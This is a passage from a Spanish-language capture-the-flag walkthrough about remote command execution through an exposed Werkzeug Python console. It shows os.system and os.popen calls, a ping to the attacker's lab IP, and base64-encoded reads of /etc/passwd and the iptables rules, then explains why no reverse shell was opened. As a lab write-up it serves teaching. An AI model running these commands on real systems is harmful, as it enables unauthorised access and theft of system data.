Estamos en frente de una consola interactiva donde se puede ejecutar code en python

```python
import os

os.system('whoami')
#Output
0
```

En este caso la respuesta al lado del servidor es `0`. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
`os.popen(<command>).read()` para ver el output normal.

```python
os.popen('whoami').read()
#Output
'Werkzeug'
```

El comando funcionna. Ahora intentamos **pingear** nuestra maquina de atacante.

1. en la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. En la consola interactiva python

    ```python
    os.system('ping -c 1 10.10.14.20')
    ```

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el comando
`os.popen('cat /etc/passwd').read()` nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recomienda encriptar la respuesta en base 64 para despues decodificarlo en la maquina de atacante con el comando
`echo "<cadena codificada en base64>" | base64 -d; echo`

```python
os.popen('base64 -w 0 /etc/passwd').read()
os.popen('base64 -w 0 /etc/iptables/rules.v4').read()
```

El iptables nos muestra con la linea `-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP` que la maquina victima nos
va a rechazar todas las comunicaciones por **TCP**. Es por esta razon que no hemos creado directamente una reverse shell.
 



## Explotacion de vulnerabilidad & Ganando acceso {-}
